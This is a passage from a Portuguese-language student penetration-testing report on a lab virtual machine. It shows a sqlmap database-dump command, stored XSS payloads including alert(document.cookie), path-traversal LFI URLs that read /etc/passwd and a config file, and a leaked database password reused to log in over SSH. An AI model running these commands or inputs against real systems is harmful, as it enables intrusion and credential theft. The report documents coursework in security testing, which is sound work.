    \par Apesar haver mais opções de exploração, devido ao grande leque de opções existentes, foi testada apenas a opção que pareceu mais relevante nesta ferramenta, \textit{--dump-all}, que permite obter toda a base dados do sistema. Realizou-se com o seguinte comando, com sucesso:
    
    \begin{lstlisting}
    python sqlmap.py -u 'http://192.168.56.102/details.php?prod=1' --level=5 --risk=3 
    --dump-all
    \end{lstlisting}
    
    
\end{itemize}

\par De referir que nesta última página foram feitas tentativas de inserção de um \textit{script} \textit{php} com o objetivo de obter um terminal do sistema que, como visto anteriormente, provavelmente seria através do utizador \textit{root} devido ao sistema da base de dados, o que permitiria um acesso a todo o sistemas mas, também, às \textit{private keys} que permitiriam um acesso via \textit{SSH} ao sistema. Como foi possível aceder via \textit{SSH} posteriormente (apesar de através de um utilizador básico), acabou por se dar pouca importância a estas tentativas. 
\par A técnica utilizada para estas tentativas encontra-se descrita na alínea 15 da Bibliografia.

\subsection{\textit{XSS}}

\par \textit{XSS} é uma vulnerabilidade que permite a atacantes injetar \textit{scripts} maliciosos em sites supostamente confiáveis. Existem pelo menos dois grandes tipos de \textit{XSS}:

\begin{itemize}
    \item \textbf{Reflected}
    \par Acontecem normalmente quando o atacante fornece um \textit{link} com parâmetros de consulta HTTP que são usados para exibir uma página de resultados sem a devida filtração de parâmetros e com potenciais ataques.
    
    \item \textbf{Stored}
    \par É o pior destes tipos pois os dados que o atacantes fornece ficam guardados no servidor e são sempre devolvidos aos utilizadores durante a navegação em um determinado \textit{website}.
\end{itemize}


\subsubsection{Utilização}

\par Ao utilizar a secção do \textit{Blog} do \textit{website}, foram encontradas vulnerabilidades de \textit{XSS} do tipo \textit{Stored} onde o código colocado no conteúdo das publicações fica guardado na base de dados, sendo visível por todos os utilizadores do \textit{Blog}.
\clearpage
\par Foram feitos alguns testes de exemplos deste tipo de vulnerabilidades:
\begin{itemize}
    \item \textbf{Inserção de uma imagem}
    \par Colocando código HTML simples no conteúdo de uma publicação, foi possível introduzir uma imagem no \textit{Blog} da seguinte forma:
    
    \begin{lstlisting}
     <img src="<img_link>">
    \end{lstlisting}
    
    \begin{figure}[!h]
        \centering
        
\includegraphics[width=150]{images/shrek.png}
        \caption{Exemplo de vulnerabilidade \textit{XSS Stored} ao inserir uma imagem}
    \end{figure}
    

    
    \item \textbf{\textit{document.cookie}}
    \par Da mesma forma descrita anteriormente, também é possível colocar um \textit{script} de \textit{JavaScript} no conteúdo de uma publicação para, por exemplo, enviar os \textit{cookies} atuais para algum atacante com o objetivo de utilizar a conta do utilizador em questão. Neste exemplo, apenas foi apresentado ao utilizador um alerta com os seus \textit{cookies} utilizando o seguinte código na publicação:
    
    \begin{lstlisting}
     <script>alert(document.cookie)</script>
    \end{lstlisting}
    
    \begin{figure}[!h]
        \centering
        
\includegraphics[width=400]{images/cookies.png}
        \caption{Exemplo de vulnerabilidade \textit{XSS Stored} ao executar um \textit{script} \textit{JavaScript} para mostrar os \textit{cookies} do utilizador}
    \end{figure}
    
    

    
    \par De referir que no pior cenário, além de obter \textit{cookies} de acesso, poderia-se ter alterado, por exemplo, a página \textit{web} atual com o objetivo de obter mais informações do utilizador, etc.
    
\end{itemize}

\clearpage

\par Além destas vulnerabilidades de \textit{XSS}, foi também encontrada uma do tipo \textit{Reflected}:

\begin{itemize}
    \item \textbf{Alteração da moeda}
    \par O \textit{website} permite ao utilizador selecionar qual o tipo de moeda em que quer os preços, sendo que esta informação é guardada na \textit{cookie} \textit{lang}. No entanto, ao redireccionar o utilizador para \url{http://192.168.56.102/index.php?lang=asdasd} que acaba por ser a mesma coisa que alterar o valor da \textit{cookie} referida, muito provavelmente, devido à base de dados não conter os preços para esta moeda, os preços são todos apresentados como \textbf{0}:
    
     \begin{figure}[!h]
        \centering
        
\includegraphics[width=\textwidth]{images/coin.png}
        \caption{\textit{Cookie} da língua}
    \end{figure}
    
     \begin{figure}[!h]
        \centering
        
\includegraphics[width=\textwidth]{images/price.png}
        \caption{Preço dos produtos após alterar a língua para uma não \textit{default}}
    \end{figure}
    
    
\end{itemize}

\clearpage


\clearpage

\subsection{\textit{LFI} e \textit{SSH}}

\subsubsection{\textit{Local File Inclusion (LFI)}}

\par \textit{Local File Inclusion (LFI)} é um tipo de vulnerabilidade que permite o acesso não autorizado a ficheiros do sistema, permitindo a atacantes aceder a ficheiros sensíveis do servidor. É tipicamente encontrada em sites \textit{php} onde um código com o objetivo de carregar uma página, ficheiros ou outros não filtra corretamente o \textit{input} do utilizador.

\par Este tipo de vulnerabilidade foi encontrada ao realizar o download do \textit{Portfolio} apresentado no \textit{website}, onde foi reparada esta possibilidade no \textit{url} \url{http://192.168.56.102/download.php?item=Brochure.pdf}. A partir deste ponto, e conhecendo o \textit{Document Root}, onde estão localizados os ficheiros \textit{php}, como referido no ficheiro \textit{info.php}, foi possível tentar fazer \textit{download} de ficheiros do sistema.


\begin{figure}[!h]
        \centering
        
\includegraphics[width=\textwidth]{images/info.png}
        \caption{Localização do \textit{Document Root}}
\end{figure}

\par Após algumas tentativas, foi obtido com sucesso o ficheiro \textit{info.php} sem processamento, com o código-fonte original, através do \textit{url} \url{192.168.56.102/download.php?item=../info.php}. Visto que o ficheiro \textit{Brochure.pdf} se encontrava no endereço \url{http://192.168.56.102/downloads/}, fez sentido considerar a sua localização como \textit{/var/www/html/downloads}.

\par A partir deste momento foram explorados vários directórios da máquina e ficheiros como o \textit{config.php} que contém as credenciais da base de dados:

\begin{lstlisting}
 <?php
$host = 'localhost';
$user = 'root';
$pass = '1ll-b3-b4ck';
$database = 'oldstore';
?>
\end{lstlisting}

\par Tentou-se aceder a ficheiros nos diretórios das configurações de \textit{SSH}, \textit{Private Keys} e de \textit{password} de sistemas \textit{Unix} sem sucesso, muito provavelmente devido à falta de privilégios, no entanto, através do endereço \url{http://192.168.56.102/download.php?item=../../../../etc/passwd} foi possível obter as informações de todas as contas da máquinas, das quais se destacou o único utilizador básico da máquina:

\begin{lstlisting}
skynet:x:1000:1000:skynet,,,:/home/skynet:/bin/bash
\end{lstlisting}

\subsubsection{\textit{SSH}}

\par Utilizando \textit{SSH}, um protocolo de rede que permite gerir servidores, e as informações anteriores, o acesso via \textit{SSH} foi possível com as seguintes credenciais:

\begin{itemize}
    \item \textbf{User} - \textit{skynet} - Visto ser o único utilizador básico da máquina
    \item \textbf{Password} - \textit{1ll-b3-b4ck} - A mesma password utilizada para a base de dados
\end{itemize}

\begin{figure}[!h]
        \centering
        
\includegraphics[width=\textwidth]{images/ssh.png}
        \caption{Acesso via \textit{SSH} à máquina}
\end{figure}

\par A partir deste ponto, grande parte da máquina estaria à mercê do atacante, sendo os danos possíveis gigantes. Apesar disso, este utilizador não possui todos os privilégios sendo que foram também feitas tentativas de escalonamento de privilégios sem sucesso.

\subsection{\textit{DIRB}}

\par Foi utilizada a ferramenta de pesquisa de diretórios \textit{DIRB}, sendo que a mesma apresentou resultados muito semelhantes ao \textit{Nikto}, mesmo com diferentes ficheiros de listas de palavras. Teria sido interessante utilizar esta ferramenta aliada à vulnerabilidade \textit{LFI} referida anteriormente, com um ficheiro de listas de palavras adequado para detetar e obter todos os ficheiros relevantes.










\clearpage

\section{Conclusão}
\par Terminando, pensa-se que, de acordo com as metas estabelecidas pelo docente, o trabalho foi bem sucedido. Foram encontradas múltiplas vulnerabilidades e, durante o processo de descoberta, aprofundou-se o conhecimento de diversas tecnologias.

\par Muitas das vulnerabilidades apresentadas apenas demonstravam um ponto de entrada para ataques ao sistema sendo que, caso existisse necessidade para tal, poderiam-se fazer danos sérios à maquina.

\clearpage

\section{Bibliografia}

\bibliographystyle{plain}

\bibliography{biblist}

\vspace{5mm} %5mm vertical space

\subsection{Documentação de \textit{CVEs}}
\label{sec:Bibliografia}


[1] \url{https://www.cvedetails.com/}

[2] \url{https://snyk.io/}

[3] \url{https://cve.mitre.org/}

[4] \url{https://bugs.gentoo.org/}

[5] \url{https://nvd.nist.gov/}

[6] \url{https://vulners.com/}

\subsection{Pesquisa de vulnerabilidades}

[7] \url{https://nmap.org}

[8] \url{https://www.hackingarticles.in/comprehensive-guide-on-dirb-tool/}

[9] \url{https://null-byte.wonderhowto.com/how-to/easily-detect-cves-with-nmap-scripts-0181925/}

[10] \url{https://cirt.net/Nikto2}

[11] \url{https://www.acunetix.com/vulnerabilities/web/clickjacking-x-frame-options-header-missing/}

[12] \url{https://developer.mozilla.org/pt-BR/docs/Web/HTTP/Headers/X-XSS-Protection}

[13] \url{https://security.stackexchange.com/questions/162979/what-are-the-consequences-of-increasing-the-risk-option-of-sqlmap/162982}

[14] \url{https://github.com/sqlmapproject/sqlmap}

[15] \url{https://null-byte.wonderhowto.com/how-to/use-sql-injection-run-os-commands-get-shell-0191405/}

[16] \url{https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/}

[17] \url{https://sushant747.gitbooks.io/total-oscp-guide/content/local_file_inclusion.html}

[18] \url{https://httpd.apache.org/docs/2.4/}

\par Para além destas fontes, foram utilizadas ao longo da pesquisa diversas fontes de suporte em relação às diversas tecnologias da máquina como \textit{php}, \textit{Apache}, etc. Foram também consultadas muitas fontes não fortemente relacionadas às vulnerabilidades encontradas que ajudaram a entender diversos problemas mas que acabaram por não se guardar.

\clearpage


\end{document}

